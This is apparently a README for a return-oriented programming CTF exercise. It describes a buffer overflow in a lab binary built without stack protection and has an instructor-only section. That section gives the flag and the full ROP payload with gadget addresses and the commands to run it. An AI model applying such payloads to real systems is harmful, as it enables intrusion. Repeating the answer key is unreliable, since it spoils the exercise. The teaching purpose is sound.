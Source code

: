 # Writeup

This is a Return-Oriented Programming Challenge (ROP) in assemply. The goal is to execute the function `win()`, while putting the value "3" in rax, and the value "2" in rbx.
For this challenge, you are provided with a binary called "rop" where the challenge takes place, and an auxiliary binary called "hex2raw" which converts a hex string to raw bytes. Credit goes to the creators of the CMU attack lab for the creation of the hex2raw binary.

The binary was compiled as follows: gcc -o rop rop.c -fno-stack-protector -no-pie -z execstack

Notice there is no stack protection, so we can overwrite the return address of the function `bof()` with the address of `win()`. However, we need to put the values "3" and "2" in rax and rbx respectively, so we need to find a way to do that.

hex2raw takes a .txt file, and converts it to raw bytes. The file should be in individual hex bytes separated by spaces.
For example, proper formating of an input file "test.txt" could be:
```
48 89 e5 48 83 ec 10 48 8d 3d 00 00 00 00 48 8d
35 00 00 00 00 48 89 c7 48 89 d8 48 89 f9 48 89
da 48 89 fb 48 89 fc 48 89 fd 48 89 fe 48 89 ff
48 89 c6 b0 03 48 89 df b0 02 0f 05
```

The size of the buffer to be overflowed is 40 bytes.

gdb is your best friend in the entire world for this challenge. You can use it to disassemble the binary, and find the addresses of the gadgets you need.

If you try to cheat, say by artifically injecting values into the registers with gdb and skipping some checks, your flag will not be the correct one, so be careful.

Good luck!

# Not for students:

The flag is: CTF_SDaT{AW3s0m3_J0b_0n_th3_Ch4113ng3}

The challenge is solved by producing an input string that will overwrite the return address of the function `bof()` with the address of `win()`, and also put the values "3" and "2" in rax and rbx respectively.

To do so, we create an input file "input.txt" with the following content:
```
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 4c 14 40 00 00 00 00 00 03 00 00 00 00 00 00 00 14 15 40 00 00 00 00 00 02 00 00 00 00 00 00 00 96 11 40 00 00 00 00 00 

```

Where the first 40 bytes are filler, the next 8 bytes are the address of a gadget that pops rax, the next 8 bytes are the value "3", the next 8 bytes are the address of a gadget that pops rbx, the next 8 bytes are the value "2", and the last 8 bytes are the address of `win()`.

The address of the gadget that pops rax is 0x0040144c, and the address of the gadget that pops rbx is 0x00401514.

The address of `win()` is 0x00401196.

The input file is then converted to raw bytes with the following command:
```
./hex2raw < input.txt > raw.txt
```

The raw bytes are then piped into the binary with the following command:
```
./rop raw.txt
```
